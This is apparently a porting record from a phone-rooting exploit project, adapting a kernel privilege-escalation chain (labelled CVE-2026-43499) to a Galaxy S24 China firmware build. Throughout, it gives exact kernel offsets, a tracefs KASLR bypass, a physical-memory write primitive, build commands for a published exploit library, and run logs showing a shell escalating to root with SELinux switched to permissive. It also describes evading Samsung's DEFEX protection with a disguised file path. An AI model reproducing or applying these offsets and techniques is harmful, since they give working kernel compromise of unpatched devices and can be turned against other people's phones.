


# SM-S9210 / S9210ZHS6DZG1 porting record

Port of the Galaxy S24 China (BRI/OZS) firmware support to the
Root-My-Galaxy-Payloads project. This is the first China-variant E1Q
(SM-S9210) profile in the repository.

## Evidence

| Field | Value |
| --- | --- |
| Package model | `SM-S9210` (BRI sales, OZS multi-CSC) |
| AP/PDA package | `S9210ZHS6DZG1` |
| Four-part version | `S9210ZHS6DZG1/S9210OZS6DZG1/S9210ZCS6DZG1/S9210ZHS6DZG1` |
| Device codename | `e1q` |
| Product name | `e1qzhx` |
| Android build ID | `BP4A.251205.006` |
| Build fingerprint | `samsung/e1qzhx/e1q:16/BP4A.251205.006/S9210ZHS6DZG1:user/release-keys` |
| Changelist | `33419270` (build date Fri Jul 10 2026) |
| Kernel release | `6.1.145-android14-11-33419968-abS9210ZHS6DZG1` |
| Device-measured SELinux | `Enforcing` |
| Device-measured tracefs event ID | `106` (`__TRACE_LAST_TYPE 20 + sched_blocked_reason index 86`) |

## Extracted image hashes

```text
boot.img size: 100663296
boot.img SHA-256: c34386a096611f6a506440eab6dd82bb4babf5509eed2b8cdc50319d4c14bed2
kernel size: 38005248 (0x243ea00, sliced at boot header offset 0x1000)
kernel SHA-256: 3c3a05ae7973e33e2188e49933a0e1cb6a628c6e4e9053b164d47c770fd408b5
vendor_boot.img size: 100663296
vendor_boot.img SHA-256: d9bbfcabbda990c9bbbdb2d459624587c358a447292299612ec170cd03fc7e97
sboot.bin SHA-256: n/a (Snapdragon BL: abl.elf / xbl_* / uefi.elf, no sboot.bin)
```

ARM64 Image header: `text_offset 0x0`, `image_size 0x26f0000`, flags `0xa`,
magic `ARMd` at `0x38`.

## Offsets

The DZG1 kernel shares the pineapple 6.1.145 layout but differs from the
China E3Q (`e3q-S9280ZCS6DZF2`) profile in two audited locations:

| Symbol | S9210 (this profile) | S9280 China DZF2 |
| --- | ---: | ---: |
| `KMALLOC_CACHES_OFF` | `0x0176c6f8` | `0x0176cbb8` |
| `SLIDE_NFULNL_LOGGER_NAME_OFF` (`"nfnetlink_log"` string) | `0x016a61e6` | `0x016a61b8` |

All other audited offsets (`CALL_USERMODEHELPER_EXEC_WORK`,
`SYSTEM_UNBOUND_WQ`, `INIT_TASK`, `ROOT_TASK_GROUP`,
`SELINUX_ENFORCING`, `ASHMEM_*`, `ANON_PIPE_BUF_OPS`,
`SLIDE_LOGGERS_0_1_OFF` / `nfulnl_logger` object `0x02242a20`,
`SLIDE_RANDOM_TABLE_BOOT_ID_DATA_PTR_OFF` `0x023762f0`,
`SLIDE_SYSCTL_BOOTID_OFF` `0x026046e8`, `ASHMEM_MISC_FOPS_OFF`
`0x023bb5b0`, `SLIDE_TRACEFS_WORKER_CALLER_OFF` `0x000db1a0`) are identical
to the S9280 profile. Note the misc symbol on this kernel is the plural
`ashmem_miscs`; the macro keeps the shared name at `ashmem_miscs + 0x10`.
BTF-derived struct layouts (file_operations, page, task, compact
rt_mutex_waiter, configfs, workqueue, selinux_state) match the S9280 profile.

## P0 table

`src/targets/e1q-S9210ZHS6DZG1/p0_fingerprint.h` was generated from the exact
DZG1 raw kernel for all 32 candidates `0x000000` through `0x1f0000`
(`P0_ORACLE_PROBE_OFFSET = 0x1f0000`, 256 source qwords read back verified).
The table header/low-page rows match the S9280 baseline code, with 42
address-dependent words differing, so the P0 table must not be reused across
firmware. `P0_PHYS_OFFSET = 0x80000000` (DTB `gunyah_hyp_region@80000000`
base); `P0_KERNEL_PHYS_LOAD = 0x80080000` follows the same-SoC (pineapple)
hardware-validated E3Q default, and the full chain below passes through it
(`p0 physical write status=0 ok=1` on hardware).

The app-domain release payload is built with:

```sh
make TARGET=e1q-S9210ZHS6DZG1 \
  ANDROID_NDK_HOME=/path/to/android-ndk-r29 release
```

The fixed-size result is published at
`artifacts/e1q-S9210ZHS6DZG1/cve-2026-43499-app.so`
(104128 bytes, SHA-256
`2dc137cc1dca72f896ee16347f3137dd0c521ecdee56e1922fb58e733e9b4059`,
reproducible from a clean `make release`).

## KernelSU compatibility

The exact-release KernelSU 6.1 module has vermagic
`6.1.145-android14-11-33419968-abS9210ZHS6DZG1`.

- v3.3.0 (`KSU_VERSION 32601`, rebuilt 2026-10-01, static-audited, one
  candidate hardware success 2026-10-03 — built, NOT yet published to repo;
  hashes below for reference, on-disk remains v3.2.5):
  `android14-6.1_kernelsu-e1q-S9210ZHS6DZG1-kdp.ko` (406160 bytes,
  SHA-256
  `d64647a118b91833ad0580076d06c946f1b5e4f34a52ae8a13aeeeebeb646687`)
  + `ksud-e1q-S9210ZHS6DZG1-kdp` (4995304 bytes, SHA-256
  `8874894560e46dd3ab711386f07c3d89635bdaae0e02a806878555bdbdc15049`).
  Audit fingerprint identical to the v3.2.5 reference (202 undefined, 0
  missing, 0 CRC, empty `__versions`, zero `UND stop_machine`).
  Build record: `kernelsu/REBUILD-e1q-v3.3.0.md`.
- v3.2.5 (`KSU_VERSION 32525`, device-tested 2026-09-11, current on-disk pair):
  module 398336 bytes (SHA-256
  `1b7847944dfb3f4491d2fe258c85f3292b762a5536180850fa157852b9cae79f`);
  late-load binary
  `kernelsu/ksud-e1q-S9210ZHS6DZG1-kdp` is 4895088 bytes (SHA-256
  `67b49cadfbbc518ac1fca3f7e514782110e896103882e7caa5cccaa1572ee542`).
  Module load and KernelSU late-load verified on SM-S9210 hardware (see
  below); do not substitute the generic 6.1 module.

## Hardware validation

**Status: device-tested (2026-09-11) on the v3.2.5 pair; v3.3.0 pair
static-audited with one candidate hardware success (2026-10-03), remaining
acceptance checks pending.** Full chain verified on a physical
SM-S9210 (S9210ZHS6DZG1, `BRI`, Enforcing) via manual runs mirroring the
app's Shizuku-mode invocation (`LD_PRELOAD` the release `.so` with
`EXPLOIT_ATTEMPTS=24`, `P0_ATTEMPT_TIMEOUT_SEC=45`,
`EXPLOIT_ATTEMPT_TIMEOUT_SEC=120`, `STACK_WRITER_DELAY_USEC=40000`).

### v3.2.5 transcripts (retained for history — not v3.3.0 evidence)

The v3.2.5 golden run (2026-09-11, retained for history) completed on attempt 5/48:

```text
[+] slide-kaslr-ok source=tracefs ... base=ffffffc0080f0000 slide=00000000000f0000
[*] slide pi stage=writer-return ... sched_ok=1 window=1
[*] p0 physical write status=0 ok=1
[*] app fops stage=trigger-return attempt=1 triggered=1
[*] cfi write ret=35 errno=0
[*] cfi read ret=35 errno=0
[*] phys step probed read done ok=1
[*] phys step probed write done ok=1
[*] phys step read64 done ok=1 value=306365737562656e
[*] root umh result wake=1 complete=1 retval=0 socket=1
[+] pipe physrw ... done=1 root=1 read_ok=1 write_ok=1 rw64=1/1 uid=2000->0
[+] exploit completed attempt=5/48
```

- KASLR comes from tracefs on every attempt (slide varies per boot;
  `0x050000`–`0x180000` seen across runs, logs retained locally); caller
  minus `SLIDE_TRACEFS_WORKER_CALLER_OFF (0xdb1a0)` reproduces the slide
  with unanimous per-boot agreement — caller offset hardware-confirmed.
- Temp root session transcript (`cve-2026-43499-root -c`):
  `uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0`,
  `getenforce` → `Permissive`.
- KernelSU late-load: module `kernelsu ... Live` in `/proc/modules`,
  Enforcing restored, `ksud debug su` returns `uid=0(root)
  gid=0(root) context=u:r:ksu:s0` under Enforcing; manager v3.2.5 installed.





### v3.3.0 candidate hardware validation (2026-10-03)

One full-chain run of the e1q Phase-D v3.3.0 pair succeeded on the same
physical SM-S9210 / `S9210ZHS6DZG1` target. This is a candidate-pair result;
the v3.2.5 pair above remains the published/feed pair until the remaining
acceptance checks are completed.

| Field | Value |
| --- | --- |
| Root My Galaxy app | `0.3.2-s24.1`, versionCode `16` |
| Run | `2026-10-03 01:39:01–01:40:47 +08:00` (105.94 s measured; wall-clock endpoints rounded to seconds) |
| Transport | Shizuku mode |
| KernelSU Manager package | `me.weishu.kernelsu`, `v3.3.0`, versionCode `32601` |
| Phase-D `ksud` | 4,995,304 bytes, SHA-256 `8874894560e46dd3ab711386f07c3d89635bdaae0e02a806878555bdbdc15049` |
| Embedded module | 406,160 bytes, SHA-256 `d64647a118b91833ad0580076d06c946f1b5e4f34a52ae8a13aeeeebeb646687`; `CONFIG_KSU_SAMSUNG_NO_PATCH_TEXT=y` |

App history record `ff7028d8-d088-46f9-ae96-84d5ff735893` records
`exploit completed attempt=1/24`, `done=1 root=1`, followed by successful
KernelSU control-channel verification. The initial `late-load --ephemeral`
invocation was rejected as an unexpected argument and reported
`KernelSU driver fd unavailable`; the helper retried plain `late-load`, after
which the control-channel check passed and the app reported KernelSU active
and install complete. This fallback was necessary for the observed success
and should remain documented until the CLI contract is fixed or verified.

About 30 minutes after the run, read-only checks showed `kernelsu ... Live`
in `/proc/modules` and SELinux `Enforcing`; the staged `ksud` SHA-256 still
matched the Phase-D artifact. Manager version 32601 was installed, but its UI
`Working <LKM>` state was not independently captured. No resetprop regression
suite was run, and the later thermal snapshot is not a measurement of peak
temperature during the exploit.

This establishes one app-mediated Shizuku full-chain success, not
repeatability, reboot persistence, Manager UI recognition, or the resetprop
regression matrix. Keep the current support-feed `kernelsu.size` and published
files at v3.2.5 until those remaining checks are completed. The S24 repo also
records the same run and its follow-up read-only checks.

Open items / notes for reproduction:

- `SLIDE_PSELECT_WORD_SHIFT = 3` retained (all trigger events under
  SHIFT=3; compact waiter per BTF).
- `P0_KERNEL_PHYS_LOAD = 0x80080000` retained (linear-map self-consistent;
  full chain passes through it).
- During bring-up, S928-Ultra-inherited geometry had to be replaced with
  e1s-style values (see `target.h` history): `SKB_DATA_DELTA -0xe80`,
  legacy bank (`TASK_STRIDE 0x1c0`, `LOCK_OFF 0x5200`), pipe slabs back to
  default 15 — otherwise the swap lands on a zero page (`cfi ... read=0
  errno=25 ENOTTY`) and pipe reclaim lands on buddy pages (gate fail).
- `APP_TRACEFS_SLIDE = 1` added (tracefs is writable from shell,
  group `readtracefs`); without it KASLR falls back to the flaky P0 oracle.
- `--late-load` wrapper carries an `--ephemeral` fallback for the v3.2.5
  ksud CLI (see `su_daemon.c`; verify-gated so newer ksuds are unaffected).
  The 2026-10-03 v3.3.0 candidate run above exercised the app's retry from
  rejected `--ephemeral` to plain `late-load` end-to-end. The staged file must be named
  `/data/local/tmp/ksud-s25u-kdp` (hardcoded `KSU_LOADER_PATH`); running
  ksud directly from `/data` as uid 0 trips a DEFEX safeplace kill, which
  the bind-mount disguise avoids.
- Root and KernelSU are volatile (locked bootloader); re-run after reboot.
  One full trigger shot per supervisor run (first fops route config locks
  the run); re-invoke for more shots, no reboot needed unless panic/hang.
